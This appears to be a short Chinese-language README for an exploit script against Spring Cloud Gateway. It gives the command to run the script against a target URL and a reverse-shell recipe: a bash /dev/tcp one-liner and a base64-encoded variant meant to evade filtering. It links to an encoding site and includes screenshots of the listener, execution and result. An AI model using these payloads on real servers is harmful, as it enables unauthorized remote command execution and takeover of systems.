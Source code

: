 使用方法

SpringCloudGateway.py -u http://192.168.0.101:9000/

退出: exit 

windows平台上执行Dir会报错,echo写文件报错，反弹shell参考下面

<img width="841" alt="image" src="https://user-images.githubusercontent.com/37574712/156893589-59a9c7d9-dab0-47a4-8766-031effdc5926.png">

反弹shell 参考:https://blog.csdn.net/hsj_csdn/article/details/101922218

通过如下平台编码 

https://x.hacking8.com/?post=293

bash -i >& /dev/tcp/127.0.0.1/3333 0>&1 

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMzMzMyAwPiYxIA==}|{base64,-d}|{bash,-i}


监听

<img width="382" alt="image" src="https://user-images.githubusercontent.com/37574712/156892966-f2274b11-2cb0-4221-9396-5158eea9717e.png">

执行

<img width="612" alt="image" src="https://user-images.githubusercontent.com/37574712/156893013-41b55d1a-6f20-403b-b281-27bd9cafbbba.png">

结果

<img width="500" alt="image" src="https://user-images.githubusercontent.com/37574712/156893028-ee3d4556-a9fb-4e65-9cfb-d0cd7a5b9ad2.png">

